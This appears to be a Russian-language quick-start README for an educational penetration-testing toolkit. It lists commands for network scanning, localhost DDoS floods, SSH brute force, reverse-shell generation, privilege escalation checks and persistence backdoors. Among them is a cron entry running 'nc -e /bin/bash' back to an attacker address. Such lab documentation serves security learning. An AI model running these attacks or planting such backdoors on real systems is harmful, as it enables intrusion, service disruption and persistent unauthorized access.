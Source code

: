# 🚀 Быстрый старт - Образовательные инструменты кибербезопасности

## ✅ Установка завершена!

Все зависимости установлены в виртуальном окружении. Теперь вы можете использовать инструменты для изучения кибербезопасности.

## 🔧 Активация окружения

Перед каждым использованием активируйте виртуальное окружение:

```bash
cd /Users/phenix/Projects/pen_test
source venv/bin/activate
```

## 🎯 Быстрые команды для тестирования

### 1. Сканирование сети
```bash
# Поиск живых хостов в локальной сети
python3 network_scanner.py 192.168.1.0/24 --ping

# Полное сканирование с поиском уязвимостей
python3 network_scanner.py 192.168.1.0/24 --all
```

### 2. DDoS тестирование (только localhost!)
```bash
# HTTP Flood на 10 секунд
python3 ddos_educational.py 127.0.0.1 -t http -d 10

# TCP SYN Flood
python3 ddos_educational.py 127.0.0.1 -t tcp -d 10

# Slowloris атака
python3 ddos_educational.py 127.0.0.1 -t slowloris -d 30
```

### 3. Инструменты эксплуатации
```bash
# Поиск скрытых веб-директорий
python3 exploitation_tools.py 127.0.0.1 --web-dirs --port 80

# SSH brute force (если есть SSH сервер)
python3 exploitation_tools.py 192.168.1.100 --ssh-brute

# Генерация reverse shell
python3 exploitation_tools.py 192.168.1.100 --reverse-shell 192.168.1.50 4444
```

### 4. Полное тестирование на проникновение
```bash
# Полный цикл тестирования
python3 full_penetration_test.py 192.168.1.0/24 --target 192.168.1.100

# Отдельные фазы
python3 full_penetration_test.py 192.168.1.0/24 --phase 1  # Разведка
python3 full_penetration_test.py 192.168.1.0/24 --phase 2  # Сканирование
python3 full_penetration_test.py 192.168.1.0/24 --target 192.168.1.100 --phase 3  # Эксплуатация
```

### 5. Повышение привилегий
```bash
# Сканирование на повышение привилегий
python3 privilege_escalation.py --all

# Отдельные проверки
python3 privilege_escalation.py --sudo
python3 privilege_escalation.py --suid
```

### 6. Поддержание доступа
```bash
# Анализ методов persistence
python3 persistence_toolkit.py --report

# Создание SSH бэкдора
python3 persistence_toolkit.py --ssh-key "ssh-rsa AAAAB3NzaC1yc2E..."

# Cron бэкдор
python3 persistence_toolkit.py --cron "nc -e /bin/bash 192.168.1.50 4444" "*/10 * * * *"
```

## 🎓 Образовательные сценарии

### Сценарий 1: Полное тестирование локальной сети
```bash
# 1. Активируем окружение
source venv/bin/activate

# 2. Сканируем сеть
python3 network_scanner.py 192.168.1.0/24 --all

# 3. Выбираем цель и тестируем
python3 full_penetration_test.py 192.168.1.0/24 --target 192.168.1.100
```

### Сценарий 2: DDoS тестирование
```bash
# 1. Запускаем простой веб-сервер (в другом терминале)
python3 -m http.server 8080

# 2. Тестируем DDoS атаки
python3 ddos_educational.py 127.0.0.1 -t http -p 8080 -d 30
```

### Сценарий 3: Веб-уязвимости
```bash
# 1. Создаем уязвимую веб-страницу
echo '<?php echo "Hello " . $_GET["name"]; ?>' > test.php
python3 -m http.server 8080

# 2. Тестируем XSS
python3 exploitation_tools.py 127.0.0.1 --xss-test "http://127.0.0.1:8080/test.php"
```

## ⚠️ Важные напоминания

1. **Всегда активируйте виртуальное окружение** перед использованием
2. **Используйте только локальные адреса** (127.x.x.x, 192.168.x.x, 10.x.x.x)
3. **Тестируйте только на собственных системах** или с письменного разрешения
4. **Изучайте для защиты**, а не для атак

## 🛠️ Устранение проблем

### Если возникают ошибки импорта:
```bash
# Убедитесь, что виртуальное окружение активировано
source venv/bin/activate

# Проверьте установленные пакеты
pip list | grep scapy
```

### Если нужны дополнительные зависимости:
```bash
# Установка дополнительных пакетов
pip install package_name
```

## 📚 Дополнительные ресурсы

- **README.md** - Полная документация
- **requirements.txt** - Список зависимостей
- **setup_lab.sh** - Автоматическая настройка лаборатории

## 🎯 Следующие шаги

1. Изучите код каждого инструмента
2. Экспериментируйте с различными параметрами
3. Создайте собственную лабораторную среду
4. Изучите методы защиты от каждого типа атак
5. Практикуйтесь на специальных уязвимых системах (DVWA, Metasploitable)

**Удачного изучения кибербезопасности! 🛡️**
